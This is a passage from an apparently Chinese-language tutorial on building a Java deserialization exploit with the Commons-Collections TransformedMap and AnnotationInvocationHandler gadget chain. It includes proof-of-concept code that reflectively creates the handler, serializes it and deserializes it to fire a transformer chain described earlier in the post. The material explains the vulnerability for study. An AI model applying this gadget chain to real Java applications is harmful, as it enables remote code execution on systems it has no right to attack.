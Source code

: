 核心点在这：

`memberValues`就是反序列化后得到的Map，也是经过了`TransformedMap`修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用`setValue`设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们前面所展示的链子

```java
Iterator var4 = this.memberValues.entrySet().iterator();
Entry var5 = (Entry)var4.next();
var5.setValue()
```

所以现在我们就来构造我们的POC

### POC构造

首先就是AnnotationInvocationHandler对象的创建，因为这个是jdk内部的类，是不能直接new获取的，所以得用反射来获取

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(handler);
oos.close();
System.out.println(barr);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = (Object)ois.readObject();
```

然后是这里的`newInstance`获取对象了，首先我们去看看AnnotationInvocationHandler的构造方法，这里是要传两个参数的，第一个参数是`Class<? extends Annotation> var1`，第二个参数是Map

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

他的第一个参数必须是Annotation的子类，这里其实是有很多的，但是为什么选`Retention`

首先我们看到最后readObject这里，在最后set这，是有一个判断条件的

```
if (var7 != null)
```

这里我调试了很久，但是还是没弄懂，看p牛的文章中是这样说的

>那么如何让这个var7不为null呢？这一块我就不详细分析了，还会涉及到Java注释相关的技术。直接给 出两个条件：
>
>1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X 
>2. 被 TransformedMap.decorate 修饰的Map中必须有一个键名为X的元素 
>
>所以，这也解释了为什么我前面用到 Retention.class ，因为Retention有一个方法，名为value；所 以，为了再满足第二个条件，我需要给Map中放入一个Key是value的元素：

